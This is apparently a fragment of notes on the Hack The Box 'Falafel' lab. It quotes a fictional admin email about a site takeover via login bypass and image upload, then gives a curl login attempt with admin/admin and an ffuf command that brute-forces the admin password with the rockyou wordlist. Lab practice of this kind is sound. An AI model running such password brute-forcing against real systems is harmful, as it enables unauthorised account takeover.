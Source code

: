 
From: Falafel Network Admin (admin@falafel.htb)
Subject: URGENT!! MALICIOUS SITE TAKE OVER!
Date: November 25, 2017 3:30:58 PM PDT
To: lawyers@falafel.htb, devs@falafel.htb
Delivery-Date: Tue, 25 Nov 2017 15:31:01 -0700
Mime-Version: 1.0
X-Spam-Status: score=3.7 tests=DNS_FROM_RFC_POST, HTML_00_10, HTML_MESSAGE, HTML_SHORT_LENGTH version=3.1.7
X-Spam-Level: ***

A user named "chris" has informed me that he could log into MY account without knowing the password,
then take FULL CONTROL of the website using the image upload feature.
We got a cyber protection on the login form, and a senior php developer worked on filtering the URL of the upload,
so I have no idea how he did it.

Dear lawyers, please handle him. I believe Cyberlaw is on our side.
Dear develpors, fix this broken site ASAP.

	~admin



```bash
curl 'http://falafel.htb/login.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://falafel.htb' -H 'Connection: keep-alive' -H 'Referer: http://falafel.htb/login.php' -H 'Cookie: PHPSESSID=8g9r1aii884u3g3bf19dq9v773' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --data-raw 'username=admin&password=admin'
```

```bash
ffuf -w /usr/share/seclists/rockyou.txt -u http://falafel.htb/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Wrong identification"
```